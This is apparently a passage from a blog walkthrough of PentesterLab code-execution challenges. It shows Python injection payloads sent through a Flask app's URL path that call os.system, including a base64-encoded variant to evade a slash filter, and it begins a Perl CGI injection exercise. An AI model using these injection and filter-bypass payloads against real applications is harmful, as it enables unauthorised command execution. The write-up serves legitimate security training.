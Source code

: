 we send in the following payload:

```http
https://ptl-654aa02463ab-d288ff662c1b.libcurl.me/hello/hacker%22%2bstr(__import__('os').system('/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92'))%2b%22
```

and we got the following output showing 0 at the end of hacker means that the command ran successfully:

![1694112053607.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694112053607.png)

# Code Execution 08

This exercise is one of our challenges on Code Execution

![1694112119679.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694112119679.png)

for this challenge '/' are not allowed so we need to find a way to bypass this, this is a flask web application so we use base64 a python module that we could use to encode our payload and send it to the server with commands to decode it and execute the decoded version:

we open up the python terminal and encode our payload:

![1694112782857.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694112782857.png)

we then craft the payload to become:

```http

https://ptl-78e046e02283-117b3cf1cd1d.libcurl.me/hello/hacker%22%2bstr(__import__('os').system(__import__('base64').b64decode('L3Vzci9sb2NhbC9iaW4vc2NvcmUgOGU5Y2M0NGUtOTM4YS00YTUyLTkyNjEtNjE4NTUzZWRkYTky')))%2b%22
```

and got the following response:

![1694112801626.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694112801626.png)

the '0' after hacker means a successfully execution!!

# Code Execution 09

This exercise is one of our challenges on Code Execution

![1694112875233.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694112875233.png)

This challenge is code injection in Perl.

The Perl script is deployed as a CGI script. You can quickly get a better understanding of how the site works by inspecting the traffic. First the index page is loaded, then it does a request to the CGI in JavaScript.

As always, you can use single or double quotes to trigger unexpected behavior in the application.
